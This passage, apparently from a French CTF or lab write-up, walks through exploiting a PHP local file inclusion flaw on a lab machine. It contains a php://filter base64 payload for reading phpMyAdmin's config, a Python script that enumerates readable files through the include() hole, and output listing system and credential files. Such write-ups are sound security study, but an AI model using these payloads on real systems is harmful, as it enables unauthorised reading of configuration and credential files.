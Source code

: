 J'ai testé toutes les astuces classiques et moins classiques (*php://input*, *data://*, */proc/self/environ* et bien sûr l'inclusion de logs *Apache*).  

L'autre problème de l'inclusion c'est que le code PHP est évidemment interprété ce qui pose problème quand on veut obtenir du code source PHP présent sur le serveur.  

Par exemple *dirb* a trouvé une installation *phpMyAdmin* dans */php/phpMyAdmin*. Si on inclut bêtement le fichier *php/phpMyAdmin/config.inc.php* alors on aura droit à une page blanche.  

Cela peut être contourné bien l'utilisation de filtres qui convertissent les données avant l'inclusion :  

```plain
connect=php://filter/convert.base64-encode/resource=php/phpMyAdmin/config.inc.php
```

De cette façon on obtient le contenu du fichier de configuration de *phpMyAdmin* encodé en *base64*.  

Mais une fois décodé on se rends compte que MySQL utilise un compte root en local uniquement sans mot de passe (pas de mot de passe et pas d'accès depuis l'extérieur, on n'est pas plus avancés).  

Avec un script fait main je peux lister rapidement les fichiers auxquels j'ai accès via cette faille include() :  

```python
import requests

URL = "http://192.168.1.27/index1.php?help=true&connect="

fd = open("logs.txt")

while True:
    logfile = fd.readline()
    if not logfile:
        break
    logfile = logfile.strip()
    r = requests.get(URL + logfile)
    if not "Failed opening" in r.content:
        print "+ Acces a", logfile, "ok"
    elif "Permission denied" in r.content:
        print "- Acces a", logfile, "refuse"

fd.close()
```

Pour remplir ma liste de fichiers à tester je me suis basé sur un article de [BlackHat Library](http://www.blackhatlibrary.net/File_Inclusion) ainsi que des idées perso.  

L'output donne les résultats suivants pour les fichiers accessibles :  

```plain
Acces a /var/log/lastlog ok
Acces a /var/log/wtmp ok
Acces a /var/run/utmp ok
Acces a /etc/passwd ok
Acces a /etc/group ok
Acces a /etc/hosts ok
Acces a /etc/motd ok
Acces a /etc/issue ok
Acces a /etc/crontab ok
Acces a /proc/version ok
Acces a /proc/cmdline ok
Acces a /etc/apache2/apache2.conf ok
Acces a /etc/apache2/httpd.conf ok
Acces a /etc/apache2/sites-enabled/000-default ok
Acces a /etc/apache2/sites-available/default ok
Acces a /etc/ssh/sshd_config ok
Acces a /etc/mysql/my.cnf ok
```